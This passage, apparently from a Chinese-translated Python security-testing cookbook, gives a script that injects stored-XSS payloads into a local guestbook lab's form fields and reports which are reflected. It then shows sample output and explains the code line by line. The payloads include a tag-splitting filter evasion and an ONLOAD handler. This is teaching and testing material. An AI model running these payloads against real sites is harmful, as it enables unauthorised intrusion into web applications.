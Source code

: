 ```
import requests
import sys
from bs4 import BeautifulSoup, SoupStrainer
url = "http://127.0.0.1/xss/medium/guestbook2.php"
url2 = "http://127.0.0.1/xss/medium/addguestbook2.php"
url3 = "http://127.0.0.1/xss/medium/viewguestbook2.php"
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
initial = requests.get(url)
for payload in payloads:
  d = {}
  for field in BeautifulSoup(initial.text, parse_only=SoupStrainer('input')):
          if field.has_attr('name'):
            if field['name'].lower() == "submit":
              d[field['name']] = "submit"
            else:
              d[field['name']] = payload
  req = requests.post(url2, data=d)
  checkresult = requests.get(url3)

  if payload in checkresult.text:
    print "Full string returned"
    print "Attack string: "+ payload
```

以下是将此脚本与两个成功字符串一起使用时生成的输出示例：

```
Full string returned
Attack string: <script>alert(1);</script>
Full string returned
Attack string: <BODY ONLOAD=alert(1)>
```

## 它是如何工作的…

我们一次又一次地导入我们的库，并建立我们要攻击的 URL。这里，`url`是带有要攻击的参数的页面，`url2`是要提交内容的页面，`url3`是检测攻击是否成功的最终读取页面。其中一些 URL 可能是共享的。之所以以这种形式设置它们，是因为很难为存储的跨站点脚本创建点击式脚本：

```
url = "http://127.0.0.1/xss/medium/guestbook2.php"
url2 = "http://127.0.0.1/xss/medium/addguestbook2.php"
url3 = "http://127.0.0.1/xss/medium/viewguestbook2.php"
```

然后我们建立有效载荷列表。与基于 URL 的 XSS 脚本一样，有效负载和检查值相同：

```
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
```

然后，我们创建一个空字典，将有效负载与每个标识的输入框配对：

```
d = {}
```
